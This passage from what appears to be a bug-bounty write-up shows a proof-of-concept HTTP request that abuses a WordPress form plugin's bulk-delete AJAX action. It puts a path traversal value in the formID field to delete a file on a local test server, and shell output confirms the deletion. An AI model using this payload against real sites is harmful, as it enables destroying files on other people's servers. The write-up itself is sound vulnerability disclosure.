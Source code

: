 ```http
POST /wp-admin/admin-ajax.php?action=bitforms_bulk_delete_form&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 89
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":["../../../../../../../../../../../../../var/www/html/test.txt"]}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822193710.png)

```shell
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
ls: cannot access 'test.txt': No such file or directory
```

Nice! It's gone!

#### Arbitrary File Deletion via Method `deleteAForm`
